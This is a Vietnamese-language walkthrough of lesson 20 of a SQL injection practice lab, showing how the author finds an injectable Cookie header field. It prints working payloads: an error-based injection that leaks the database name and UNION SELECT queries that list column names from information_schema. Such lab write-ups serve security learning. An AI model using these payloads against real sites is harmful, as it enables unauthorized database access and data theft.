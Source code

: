 # Những việc làm được với lesson-20
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-20

![](../images/lesson20/screen.png)

Sau khi ta đăng nhập thì thử thế nào đi nữa các ký tự đặc biệt hay một vài cách các lesson trước cũng không qua được.

![](../images/lesson20/screen_5.png)

Và tôi thử đăng nhập bằng user và password như bài 18 và 19 

![](../images/lesson20/screen_1.png)

đọc dòng gợi ý thì bài này gợi ý có thể liên quan đến `cookie` và `user-agent`. Thế nên ta sẽ đi sửa 2 trường này của header xem sao. 

![](../images/lesson20/screen_3.png)

Như ở bài 19 thì chỉ có 2 gói tin một với method `POST` và một với `GET`. thì gói tin `POST` ở đây có `RESPONSE` nên ta có thể thay đổi header ở đây và nhận lại giá trị 

còn ở bài 20 thì ta thấy rằng có 3 gói tin 1 với `POST` và 2 với `GET`. Còn ở đây thì method `POST` không có ta phải thay ở `GET` thì ta mới nhận được giá trị trả về 

![](../images/lesson20/screen_4.png)

![](../images/lesson20/screen_6.png)

1. Kết quả của thay đổi trường trong header 
- Trường user-agent. ta không thấy gì xảy ra. Ta thay đổi giá trị của trường như bên dưới 
```
User-Agent: ' 
```

![](../images/lesson20/screen_7.png)



- Trường trong cookies. ta thấy có thông báo lỗi. Ta thay đổi trường thành như dưới đây 
```
Cookie: uname='
```

![](../images/lesson20/screen_8.png)

Sau nhiều lần thử thì cấu trúc của câu ta tìm được ra là 
```
uname = ' and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --  '
```

![](../images/lesson20/screen_9.png)

Ta tìm được kết quả với cách làm truy vấn tương tự các bài trước khi đã biết được cấu trúc 

Ta để ý rằng ở bài 20 khi đăng nhập thành công còn login còn hiển thị ra màn hình user và password của các user từ đây ta có thể sử dụng được union để check thông tin một cách nhanh hơn 

```
uname = Dhakkan  ' union SELECT 1,@@version,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='uagents' limit 1,1 -- ' 
```

![](../images/lesson20/screen_10.png)

```
uname = ' union SELECT 1,@@version,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='uagents' #
```

![](../images/lesson20/screen_11.png)

Ta có thể sử dụng cách union này như các bài đầu để có thể truy xuất được dữ liệu nhanh hơn. vì ta có thể in nhiều dữ liệu ra cùng một lúc 

